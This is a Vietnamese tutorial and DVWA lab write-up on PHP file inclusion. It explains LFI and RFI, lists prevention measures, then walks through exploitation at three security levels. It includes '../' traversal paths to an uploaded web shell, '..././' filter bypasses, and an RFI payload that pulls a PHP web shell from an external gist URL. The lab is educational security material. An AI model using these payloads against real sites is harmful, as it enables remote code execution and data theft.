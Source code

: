 # **File Inclusion**

## **Lỗ hổng file inclusion là gì?**

**FIle Inclusion** cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web, nó là một **biến thể** của **Path Traversal** .

Điều này xảy ra là do trong code php web , lập trình viên đã sử dụng các lệnh `include`, `require`, `include_once`, `require _ once` , các lệnh này cho phép việc file hiện tại có thể gọi ra 1 file khác. Các hàm Inclusion nhận tham số truyền vào là **một đường dẫn tới File** hoặc một **URL**  

Dấu hiệu để nhận biết rằng trang web có thể tấn công file inclusion là đường link thường có dạng `php?page=`,hoặc `php?file=` .... Để biết trang web có bị lỗi này hay không ta chỉ cần thêm 1 dấu ' vào đường link , ví dụ như là `php?page='`. Và trên trình duyệt sẽ có thông báo dạng

![](./images/20-06-01.png)

Nguyên nhân gây ra lỗi này là khi sử dụng các lệnh trên, lập trình viên lại gọi các file cần mở thông qua biến. Các biến này hoặc chưa được khởi tạo, hoặc do người dùng quyết định.

File Inclusion có 2 kiểu tấn công phổ biến, đó là **Local File Inclusion** và **Remote File Inclusion**

- **Local file inclustion** (LFI) là kĩ thuật đọc file trong hệ thống, lỗi này xảy ra thường sẽ khiến website bị lộ các thông tin nhảy cảm như là `passwd`, `php.ini`, `access_log`, `config.php`…

- **Remote File Inclusion** còn được viết tắt là RFI cho phép kẻ tấn công nhúng một mã độc hại được tuỳ chỉnh trên trang web hoặc máy chủ bằng cách sử dụng các tập lệnh . RFI còn cho phép tải lên một tệp nằm trên máy chủ khác được chuyển đến dưới dạng hàm PHP ( `include`, `include_once`, `require`, or `require_once`). Đây là một lỗ hổng rất phổ biến do việc sử dụng hàm `include` rất nhiều và cũng là thiết đặt mặc định của server như là set `allow_url_include = On`. Lỗ hổng này sẽ khiến kẻ tấn công có thể thực thi các lệnh từ xa trên máy chủ web , xoá các phần của web và lấy dữ liệu thông tin của trang web.

## **Các phương pháp ngăn ngừa lỗ hổng file inclusion**

- Xác thực đầu vào chặt hơn
- Không bao gồm các trình phân tách thư mục như "/"
- Sử dụng danh sách trắng cho các file extension được cho phép
- Set `allow_url_fopen` và `allow_url_include` thành `off` để giới hạn việc có thể gọi các tệp tin từ xa
- Cập nhập phiên bản PHP mới nhất
- Cấu hình PHP để không sử dụng register_globals

## **Lab: Khai thác lỗ hổng File Inclusion trên DVWA**

1. Mức độ **Low-level-security**

   Sau khi set độ khó là *Low* trên DVWA , chúng ta sẽ có giao diện như thế này :
   
   ![](./images/22-20-13.png)

   Ở đây chúng ta thấy `?page=` sẽ trỏ đến 1 file có tồn tại trên máy chủ , và trong bài này là trỏ đến *file1.php*

   Thử kiểm tra *View Source* của mức độ này thì thấy không có bất cứ sự kiểm tra đầu vào nào. Giá trị `$_GET['page']` có thể bị hacker thao túng để truyền vào bất kỳ giá trị gì. Đây là **Untrusted Data**, không quan trọng là định dạng file gì. Miễn là nội dung có chứa PHP Tag `<?php ... ?>`, PHP Interpreter sẽ coi đó là PHP Script và thực thi.

   ![](./images/22-24-35.png)
   
   Do đó, ta sẽ lợi dụng lỗ hổng File Upload trên DVWA để upload 1 file *web_shell.php* lên server, sau đó chỉ việc include đường dẫn tới file *web_shell.php* vừa mới upload lên server.
 
   ![](./images/22-49-48.png)

   Như vậy, vị trí của *web_shell.php* nằm ở thư mục : `/hackable/uploads/`

   Nhưng trước khi vào được  `/hackable/uploads/web_shell.php` , chúng ta cần nhập đủ các thư mục trước đó để đưa chúng ta trở lại thư mục gốc. Chúng ta cần phải sử dụng `../` để đại diện cho các thư mục đằng trước.

   ```bash
   ../../hackable/uploads/web_shell.php
   ```
   
   Và chúng ta thu được kết quả:

   ![](./images/23-03-53.png)
   
   Do web_shell này được thực thi thông qua biến page nên khi nhập lệnh trong ô input kia mà truyền lệnh từ ngoài vào ngay trên URL

   ![](./images/23-17-46.png)

   ![](./images/23-19-38.png)

2. Mức độ **Medium-level-security**

   Kiểm tra *View Source* ta thấy được so với mức **Low**, mức **Medium** đã có bước cải thiện về mặt bảo mật, nhưng vẫn chưa an toàn tuyệt đối.

   ![](./images/23-28-33.png)

   Hàm str_replace() sẽ xóa tất cả các giá trị được gán như là `http://` ; `https://`; và các ký tự như : `../`, `..\` (cho phép người dùng thoát khỏi thư mục). và thay thế bằng giá trị `""`; sau đó nó sẽ trả lại trang ban đầu cho người dùng 

   - **Khai thác RFI**

     Chúng ta sẽ chèn thêm 1 giá trị `http://` vào giữa giá trị `http://` , điều này sẽ khiến hàm str_replace() đọc và thay giá trị `http://` ở giữa thành giá trị `""` và trả lại trang ban đầu không có giá trị `http://`. Với `https://` cũng tương tự.

     ```bash
     htthttps://ps://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php
     ```
     
     Và chúng ta thu được kết quả:

     ![](./images/23-47-51.png)

   - **Còn về khai thác LFI thì sao?**

     Cũng tương tự RFI, chúng ta thực hiện như sau, mỗi cặp `../` chúng ta chuyển thành `..././`

     ```bash
     ..././..././hackable/uploads/web_shell.php
     ```

     Và chúng ta cũng thu được kết quả:

     ![](./images/23-56-16.png)

3. Mức độ **High-level-security**

   Kiểm tra *View Source*:

   ![](./images/00-09-50.png)

   Ở đây đã kiểm tra giá trị đầu vào có phải là chuỗi bắt đầu bằng **file** hoặc đúng bằng **include.php**. Nếu không thỏa mãn điều kiện đó thì sẽ báo lỗi **ERROR: File not found!** và exit.

   Vì vậy chúng ta thử xem 1 tập tin *file4.php* (đúng với giá trị được kiểm tra xem thế nào)

   ![](./images/02-24-22.png)

   Như thế là ở mức độ **High** vẫn có kẽ hở.

   ![](./images/02-27-11.png)




